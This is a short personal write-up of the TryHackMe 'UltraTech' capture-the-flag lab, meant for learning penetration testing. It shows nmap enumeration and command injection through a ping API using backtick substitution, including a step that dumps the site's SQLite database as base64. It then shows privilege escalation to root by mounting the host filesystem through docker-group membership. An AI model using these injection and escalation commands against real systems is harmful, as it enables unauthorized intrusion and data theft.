 
2024-07-11 20:46

Source: #web #privesc #Boot2root 
#### Enumeration 
```
nmap -sCV -v $IP 
```
non-standard port in use?
```
nmap -p- -v $IP
```
1. we find 31331 
2. 8081 has a website hosted that isn't leading anywhere so we try 31331, there we have a proper webpage of ultratech 
3. going to robots.txt we find the site map
#### Exploitation 

we see there is an `api` running that helps in pinging 
```
curl 'http://<ip.address>:8081/ping?ip=`whoami`'
```
above command would otherwise be used to ping an IP address but here with command substitution we can perform command [[injection]] 

since we have an API running we can use `/health` and `/status`

in order to get the data of the [[database]] we try to return the value as a [[base64]] encoding 
```
10.10.65.179:8081/ping?ip=`base64 -w 0 utech.db.sqlite`
```
`-w 0` to make it all one long line
save the file with `.b64` extension the decode it using `base64 -d file.b64

check if a service is available on a machine or not by using - `which service_name`

we can try [[character escape]] by using `\|` instead of `|`
#### Escalation

```
find / -perm -4000 2>/dev/null
```

if nothing sticks out from the above command 
1. go to the `opt` directory  
2. we find `containerd` dir 
3. check the group we are in by using `id` command 
since we are in the docker group we can use find exploits in gtfobins for [[Docker]] 
- find local docker images using `docker images`
- run the below command further (bash is the local image found on the machine)
```
docker run -v /:/mnt --rm -it bash
```

### References
[TryHackMe | UltraTech](https://tryhackme.com/r/room/ultratech1)

video soln- 
https://www.youtube.com/watch?v=b8hUHRus6cw

[TryHackMe - Ultratech – sckull](https://sckull.github.io/posts/ultratech/#ftp-ssh)